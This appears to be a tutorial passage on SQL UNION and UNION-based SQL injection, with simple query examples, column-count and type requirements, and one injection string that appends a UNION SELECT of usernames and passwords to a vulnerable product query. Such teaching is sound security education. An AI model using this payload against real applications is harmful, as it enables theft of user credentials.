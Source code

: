 ### Understanding UNION Clause

#### What is UNION?
UNION clause combines results from multiple SELECT statements into a single result set. This allows SQL injection to extract data from multiple tables and databases.

**Basic UNION Example:**
```sql
-- Original tables:
SELECT * FROM ports;      -- Returns: CN SHA | Shanghai
SELECT * FROM ships;      -- Returns: Morrison | New York

-- Combined with UNION:
SELECT * FROM ports UNION SELECT * FROM ships;
-- Returns both tables combined:
-- CN SHA | Shanghai
-- Morrison | New York
```

#### Critical UNION Requirements

**1. Equal Column Count**
```sql
-- ✅ WORKS: Same number of columns (2 columns each)
SELECT city, code FROM ports UNION SELECT ship, city FROM ships;

-- ❌ FAILS: Different column counts
SELECT city FROM ports UNION SELECT * FROM ships;
-- Error: "The used SELECT statements have a different number of columns"
```

**2. Compatible Data Types**
```sql
-- ✅ WORKS: Compatible data types
SELECT username, id FROM users UNION SELECT product_name, price FROM products;

-- ❌ FAILS: Incompatible data types  
SELECT username, created_date FROM users UNION SELECT product_name, price FROM products;
```

#### How UNION Injection Works
```sql
-- Original vulnerable query:
SELECT * FROM products WHERE product_id = 'USER_INPUT'

-- Normal usage:
SELECT * FROM products WHERE product_id = '1'

-- UNION Injection:
SELECT * FROM products WHERE product_id = '1' UNION SELECT username, password FROM users-- '

-- Result: Shows both product data AND user credentials!
```
